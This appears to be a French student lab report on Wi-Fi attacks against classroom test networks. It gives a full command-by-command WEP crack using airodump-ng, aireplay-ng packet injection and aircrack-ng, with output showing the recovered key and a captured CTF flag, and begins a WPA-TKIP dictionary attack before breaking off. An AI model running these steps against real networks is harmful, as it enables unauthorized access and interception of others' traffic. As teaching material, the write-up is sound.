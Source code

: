 # R501-TP4 - Attaques Wifi

## 1 - Attaques d'un réseau WEP

1. Déterminer le canal du réseau R501-WEP et vérifier qu’il est bien configuré en WEP.

    ```bash
    sudo iw wlp0s20f0u3 scan | grep R501-WEP -A 16 -B 6
    ```

    nous donne:

    ```txt
      BSS b8:27:eb:d2:d5:f6(on wlp0s20f0u3)
      TSF: 635882552 usec (0d, 00:10:35)
      freq: 2432.0
      beacon interval: 100 TUs
      capability: ESS Privacy SpectrumMgmt ShortSlotTime (0x0511)
      signal: -31.00 dBm
      last seen: 0 ms ago
      Information elements from Probe Response frame:
      SSID: R501-WEP
      Supported rates: 1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 
      DS Parameter set: channel 5
      Country: CN	Environment: Indoor/Outdoor
        Channels [1 - 13] @ 20 dBm
      Power constraint: 0 dB
      TPC report: TX power: 15 dBm
      ERP: <no flags>
      Extended supported rates: 6.0 9.0 12.0 48.0 
      Extended capabilities:
        * Extended Channel Switching
      WMM:   * Parameter version 1
        * u-APSD
        * BE: CW 15-1023, AIFSN 3
        * BK: CW 15-1023, AIFSN 7
        * VI: CW 7-15, AIFSN 2, TXOP 3008 usec
        * VO: CW 3-7, AIFSN 2, TXOP 1504 usec
    ```

    l'AP utile le channel 5 pour communiquer.

2. Utiliser  `aircrack-ng`  pour cracker la clé WEP de ce réseau (sans utiliser de dictionnaire).
  Détailler toute la procédure

  - On passe notre carte en mode monitor:

    ```sh
    iwconfig <wireless-adapter> mode monitor
    ```

  - On switch de channel afin de pouvoir capturer les paquets:

    ```sh
    iw <wireless-adapter> set channel 5
    ```

  - ### Ecoute sur le channel 5

    On fait:

    ```sh
    airodump-ng -c 5 -w airod --output-format pcap --write-interval 15 --bssid b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```txt
    CH  5 ][ Elapsed: 6 mins ][ 2024-09-25 15:31 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    B8:27:EB:D2:D5:F6  -59 100     3586    69358    0   5   54e  WEP  WEP    OPN  R501-WEP                                                                                                                           

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    B8:27:EB:D2:D5:F6  5E:CC:1E:90:20:C4  -47   54e- 1e     0     4063         R501-WEP                                                                                                                               
    B8:27:EB:D2:D5:F6  F6:A6:D3:1A:2A:28  -46    0 - 1      4       69                                                                                                                                                
    B8:27:EB:D2:D5:F6  A2:1E:5C:C4:AF:F2  -47    1 - 1      0     5759                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:0C:7B  -28    0 - 1      2      135                                                                                                                                                
    B8:27:EB:D2:D5:F6  D8:44:89:03:43:6D  -38    1 - 1    199     7124                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:0C:A5  -63    1 - 1      0    32927                                                                                                                                                
    B8:27:EB:D2:D5:F6  B8:27:EB:E3:0C:EE  -51    1e- 1e     0      414                                                                                                                                                
    B8:27:EB:D2:D5:F6  24:0A:C4:11:03:10  -54    5e- 1      0     6323                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:67:E1  -47    1 - 1      0    76966                                                                                                                                                
    ```


  - ### Injection de paquets

    On fait:

    ```sh
    aireplay-ng -1 0 -b b8:27:eb:d2:d5:f6 -a b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```sh
    No source MAC (-h) specified. Using the device MAC (C4:E9:84:18:0C:A5)
    15:29:13  Waiting for beacon frame (BSSID: B8:27:EB:D2:D5:F6) on channel 5

    15:29:13  Sending Authentication Request (Open System) [ACK]
    15:29:13  Authentication successful
    15:29:13  Sending Association Request
    15:29:13  Got a deauthentication packet! (Waiting 3 seconds)

    15:29:16  Sending Authentication Request (Open System) [ACK]
    15:29:16  Authentication successful
    15:29:16  Sending Association Request [ACK]
    15:29:16  Association successful :-) (AID: 1)
    ```


  - ### Injection de paquets ARP

    On fait:

    ```
    aireplay-ng -3 -b b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```
    No source MAC (-h) specified. Using the device MAC (C4:E9:84:18:0C:A5)
    15:27:00  Waiting for beacon frame (BSSID: B8:27:EB:D2:D5:F6) on channel 5
    Saving ARP requests in replay_arp-0925-152700.cap
    You should also start airodump-ng to capture replies.
    103449 packets (got 55680 ARP requests and 16151 ACKs), sent 22888 packets...(500 pps)
    ```

  - ### Obtention de la clé WEP

    On fait:

    ```sh
    aircrack-ng -a 1 -b b8:27:eb:d2:d5:f6 ./airod-**.cap
    ```

    ce qui nous donne:

    ```txt
                                                                                                  Aircrack-ng 1.7 


                                                                                    [00:00:02] Tested 764 keys (got 66242 IVs)
                                                                                              Got 66687 out of 5000 IVsStarting PTW attack with 66687 ivs.
    KB    depth   byte(vote)
      0    2/  3   FA(77056) 28(76032) 58(75520) BD(75520) 0B(75264) 59(74752) 92(74752) E8(74752) 6D(73984) 74(73984) E9(73984) A7(73728) 68(73472) E3(73216) CA(72960) DC(72960) F0(72960) 
      1    3/  1   14(76544) 0F(75776) D6(75008) 49(74752) 51(74240) 20(73984) 8B(72704) C9(72704) F2(72704) 79(72448) FC(72448) A1(71936) DF(71936) FE(71680) 38(71424) C5(71424) F7(71424) 
      2    0/  1   28(93184) 02(78336) 0F(76544) E1(75776) 0C(75520) EB(74496) E4(73728) 9B(73472) 35(72960) 37(72960) C8(72704) 04(72448) E3(72448) 80(72192) 91(72192) 9D(72192) BB(72192) 
      3    4/  9   95(76544) C5(75264) 48(74496) A7(74496) 0B(74240) E9(73984) CB(73728) 1A(73216) 6B(73216) 8F(73216) B8(73216) 35(72960) 14(72704) 88(72448) 3D(72192) 50(72192) ED(72192) 
      4   32/  4   87(70656) 5A(70400) 76(70400) C1(70400) D4(70400) FC(70400) 80(70144) 8A(70144) A7(70144) EE(70144) FF(70144) CD(69888) 36(69632) 3F(69632) BA(69632) FA(69632) 1D(69376) 

      KEY FOUND! [ 53:61:74:75:72:6E:52:69:6E:67:24:38:38 ] (ASCII: SaturnRing$88 )
    Decrypted correctly: 100%
    ```

3. Capturer et retrouver le flag récupéré par le client de ce réseau Wifi.

  On récupère la flag avec la trame HTTP de `192.168.205.10` au serveur Apache, `192.168.205.1`.

  La réponse HTTP:

  ```
  GET /flag HTTP/1.1
  Host: 192.168.205.1
  User-Agent: ESP32HTTPClient
  Connection: keep-alive
  Accept-Encoding: identity;q=1,chunked;q=0.1,*;q=0

  HTTP/1.1 200 OK
  Date: Tue, 24 Sep 2024 15:22:40 GMT
  Server: Apache/2.4.62 (Debian)
  Last-Modified: Thu, 19 Sep 2024 12:56:03 GMT
  ETag: "21-6227871f269fc"
  Accept-Ranges: bytes
  Content-Length: 33
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive

  RTBZ{Old_W3P_S3cur1ty_1s_br0k3n}
  ```

  ce qui nous donne:

  ```html
  RTBZ{Old_W3P_S3cur1ty_1s_br0k3n}
  ```

## 2. Attaques d’un réseau TKIP/CCMP :

1. Vérifier que le réseau R501-TKIP est bien configuré en WPA-PSK et TKIP.

    ```bash 
    [lucas@fedora sheet-cheat]$ sudo iw wlp0s20f3 scan | grep R501-TKIP -A 12 -B 9
    ```

    ```txt
    BSS 00:3a:99:1d:9b:30(on wlp0s20f3)
      last seen: 4570.609s [boottime]
      TSF: 6152642617 usec (0d, 01:42:32)
      freq: 5580.0
      beacon interval: 100 TUs
      capability: ESS Privacy SpectrumMgmt (0x0111)
      signal: -55.00 dBm
      last seen: 1407 ms ago
      Information elements from Probe Response frame:
      SSID: R501-TKIP
      Supported rates: 6.0*9.0 12.0* 18.0 24.0*36.0 48.0 54.0
      WPA:  * Version: 1
        *Group cipher: TKIP
        * Pairwise ciphers: TKIP
        *Authentication suites: PSK
        * Capabilities: 4-PTKSA-RC 4-GTKSA-RC (0x0028)
      WMM:  *Parameter version 1
        * u-APSD
        *BE: CW 15-1023, AIFSN 3
        * BK: CW 15-1023, AIFSN 7
        *VI: CW 7-15, AIFSN 2, TXOP 3008 usec
        * VO: CW 3-7, AIFSN 2, TXOP 1504 usec
    ```

2. Sachant que l’administrateur de ce réseau a paramétré un mot de passe faible
  (secret de seulement 8 digits -- uniquement des chiffres -- et sans doublons, soit 1814400 possibilités =10*9*8*7*6*5*4*3),
  créer un dictionnaire contenant tous les mots de passe possibles avec un script python.

3. Attaquer alors ce réseau, toujours avec aircrack-ng, avec uniquement la capture des trames EAPOL et le dictionnaire. Retrouver ensuite le flag dans les trames « 802.11 data ».
4. Vérifier que l’on peut faire pareil sur le réseau R501-CCMP.

    ```bash

